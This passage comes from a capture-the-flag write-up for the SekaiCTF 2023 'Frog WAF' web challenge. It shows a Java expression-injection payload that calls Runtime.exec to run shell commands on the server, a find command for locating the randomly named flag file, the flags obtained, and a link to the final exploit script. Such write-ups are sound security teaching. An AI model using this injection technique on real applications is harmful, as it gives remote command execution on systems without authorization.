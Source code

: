 ```java
${
    new BufferedReader(
	    new InputStreamReader(
            message.getClass().forName("java.lang.Runtime").getRuntime().exec("ls -l").getInputStream()
        )
    ).readLine();
}
```

When calling `ls -l`, we got the first line.

`total 68 is not a valid country`

This is the number of files in the `/` directory.
RCE is here. Almost there.

### Get the Flag!

For a reason I didn't know at challenge time, commands with some special bash characters (`*`, `|`) were not working. Since the flag name is random, we need to find it.

[Rafael](https://twitter.com/musebreakz) came out with a `find` by permission to get just the flag file name in the first result line.

```bash
find / -maxdepth 1 -type f -perm 0664
```

Result:

`/flag-7662fe897b3335f35ff4c3c81b9e6371.txt`

Now, let's just cat it (locally):

`SEKAI{7357_fl46} is not a valid country`

On the challenge server:

`SEKAI{0h_w0w_y0u_r34lly_b34t_fr0g_wAf_c0ngr4ts!!!!}`

**[Final Exploit](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-frog-waf/2-exploit.py)**

Fun for the whole CTF Family!

### Takeaways

The solution could be probably simpler on the Java side.
For reading the process output, I could maybe read all of the output in one function, without all of the Java usual bullshiting.

I heard later that Runtime class has some issues with special characters we need for bash. I don't know details yet, but that explains why we couldn't just get the flag in a simpler way.

Java has some cool modern stuff, but I only know it from darker times.

Also the final payload got huge! (120k chars)
I saw a much smaller one (24k chars) on Discord.
